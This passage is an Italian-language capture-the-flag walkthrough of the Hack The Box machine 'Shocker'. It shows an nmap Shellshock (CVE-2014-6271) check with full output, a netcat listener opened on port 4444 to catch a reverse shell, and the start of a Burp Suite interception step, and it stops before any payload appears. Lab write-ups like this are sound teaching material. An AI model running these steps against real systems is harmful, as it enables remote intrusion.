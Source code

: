 A questo indirizzo abbiamo quello che ci serve
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi
https://github.com/erinzm/shellshocker

Possiamo anche verificare con uno script nmap se la macchina taraget è vulenrabile 
```bash
┌──(root㉿kali)-[/home/kali/htb/shocker/shellshocker]
└─# nmap 10.10.10.56 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-16 07:35 EDT
Nmap scan report for 10.10.10.56
Host is up (0.043s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://seclists.org/oss-sec/2014/q3/685

Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
```

Ci mettiamo sempre in ascolto con nc 
```bash
┌──(root㉿kali)-[/home/kali/htb/shocker]
└─# nc -lnvp 4444
listening on [any] 4444 ...
```

## 1ST METOD BURPSUIT

Apriamo burp e accendiamo l'intercept su on visitiamo "http://10.10.10.56/cgi-bin/user.sh"
intercettiamo la richiesta e la mandiamo al repeter
